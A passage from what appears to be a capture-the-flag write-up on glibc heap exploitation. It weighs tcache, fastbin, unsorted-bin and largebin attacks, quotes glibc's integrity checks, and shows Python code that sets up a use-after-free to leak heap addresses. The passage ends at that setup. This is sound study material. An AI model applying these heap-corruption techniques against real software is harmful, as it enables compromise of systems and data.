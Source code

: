 Tcache is not used by calloc, so we cannot do a simple tcache dup/overwrite.

**Fastbin**

`_int_malloc` checks whether the chunk is in the correct fastbin size before allocating, which means we already need
partial write at our desired target before we can actually allocate to it, making fastbin attack a lot more restricted.

**Unsorted/largebin**

Either unsorted bin or largebin attack is not possible. (I initially wanted to use this to overwrite `global_max_fast`
so I can easily do House of Apple with fastbins)

Unsorted bin attack was made obsolete in glibc 2.29, with the addition of these checks, which prevents us from putting
arbitrary values into `bk` pointer.

```c
          bck = victim->bk;
          size = chunksize (victim);
          mchunkptr next = chunk_at_offset (victim, size);

          if (__glibc_unlikely (size <= 2 * SIZE_SZ)
              || __glibc_unlikely (size > av->system_mem))
            malloc_printerr ("malloc(): invalid size (unsorted)");
          if (__glibc_unlikely (chunksize_nomask (next) < 2 * SIZE_SZ)
              || __glibc_unlikely (chunksize_nomask (next) > av->system_mem))
            malloc_printerr ("malloc(): invalid next size (unsorted)");
          if (__glibc_unlikely ((prev_size (next) & ~(SIZE_BITS)) != size))
            malloc_printerr ("malloc(): mismatching next->prev_size (unsorted)");
          if (__glibc_unlikely (bck->fd != victim)
              || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
            malloc_printerr ("malloc(): unsorted double linked list corrupted");
          if (__glibc_unlikely (prev_inuse (next)))
            malloc_printerr ("malloc(): invalid next->prev_inuse (unsorted)");
```

Largebin attack is impossible in this current scenario, because the 0x30 chunks that are allocated after each data chunk
is allocated will cause any existing largebin chunks to go back into unsorted bin.

---

With this info, we can see that only an attack on fastbin is feasible. Before we proceed, let's get a useful leak first.
(Note: I used the debug version to visualize the tree so that I can tell which nodes to free)

### Heap leak

With the UAF earlier, it's easy to leak the heap - simply read the data of the node that inherited the parent's data
chunk.

```python
# set up the tree
for i in range(10):
    add(f"CS{i}001".encode(), 0x70, b"asdf")

add(b"CS2001", 0x70, b"asdf")

# fill up 0x80 tcache
for i in range(9, 2, -1):
    delete(f"CS{i}001".encode())

# uaf
delete(b"CS2001")
delete(b"CS0001")
```
